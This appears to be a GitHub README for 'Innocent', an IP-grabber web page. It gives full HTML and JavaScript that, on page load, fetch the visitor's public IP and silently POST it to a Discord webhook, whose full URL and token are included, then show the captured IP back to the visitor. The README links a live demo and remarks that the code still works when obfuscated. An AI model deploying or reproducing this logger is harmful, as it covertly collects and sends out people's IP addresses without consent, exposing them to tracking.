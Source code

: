 EXAMPLE URI: [CLICK HERE](https://hideakiatsuyo.github.io/innocent)

Example Result:<br>
![](https://i.imgur.com/A58wwMd.png)
<br>
For the "spammer with" "bz t mort salope" [open an issue](https://github.com/HideakiAtsuyo/innocent/issues/new) instead of being a kid :)
<br>
It also work when obfuscated:<br>
![](https://i.imgur.com/ZoxHNLh.png)

```html
<!DOCTYPE html>
<html lang="fr">
  <head>
    <meta charset="utf-8">
    <title>Innocent</title>
    <script src="https://code.jquery.com/jquery-3.6.0.js"></script>
    <script type="application/javascript">
      $(function() {
          		$.getJSON("https://api.ipify.org?format=jsonp&callback=?", //Take the IP then use the callback function 
          			function(json) {//Discord Webhook under
          			const discordWebhook = "https://canary.discord.com/api/webhooks/934415150738464938/oPDmxpKkAUF6lbus2jQcOlsjB8VurxdhoG5Yf8VubLdCSZffJbz53xEEtstjOS7vrXD1"; //USE REDIRECTION NOT DIRECT WEBHOOK LMAO
          			let req = new XMLHttpRequest(); //Initialize The Request
          			req.open("POST", discordWebhook);
          			req.setRequestHeader("Content-Type", "application/json");
          			let payloadRes = { //Payload to send in the request
          				username: "Angel Gabriel",
          				avatar_url: "https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg",
          				content: json.ip //Your IP from the callback
          			};
          			req.send(JSON.stringify(payloadRes)); //Send the request with the payload
      
          			setTimeout(() => {
          				document.write(`<center><img src="https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg"><h1>Did I just caught you on my website ${json.ip} ?</h1></center>`);
          			}, 2*1000); //Wait 2 seconds then write this as new page
          		});
          	});
        
    </script>
  </head>
  <body>
    <center>
      <br>WAIT 2 SECONDS
    </center>
  </body>
</html>
```
